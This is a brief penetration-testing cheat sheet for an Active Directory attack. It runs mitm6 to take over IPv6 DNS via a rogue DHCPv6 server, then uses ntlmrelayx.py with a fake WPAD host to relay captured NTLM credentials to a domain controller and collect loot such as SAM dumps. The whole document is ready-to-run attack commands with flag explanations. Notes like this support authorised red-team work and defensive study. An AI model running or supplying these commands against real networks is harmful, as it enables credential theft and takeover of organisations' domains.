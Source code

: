 Tool: https://github.com/dirkjanm/mitm6

Run mitm6 DHCP server:
```bash
sudo mitm6 -d <AD-domain> -i eth1
```

Run *ntlmrelayx.py* version 0.9.19:
```bash
ntlmrelayx.py -6 -t <ip> -wh fakewpad.<AD-domain> -l loot
```
Args:
`-6`: Listen on both IPv6 and IPv4
`-t`: Target to relay the credentials to (E.g.: `ldaps://<dc-ip>`)
`-wh`: WPAD host. Enable serving a WPAD file for Proxy Authentication attack. We can specify a fake hostname here since we control DNS via mitm6.
`-l`: Loot directory in which gathered loot such as SAM dumps will be stored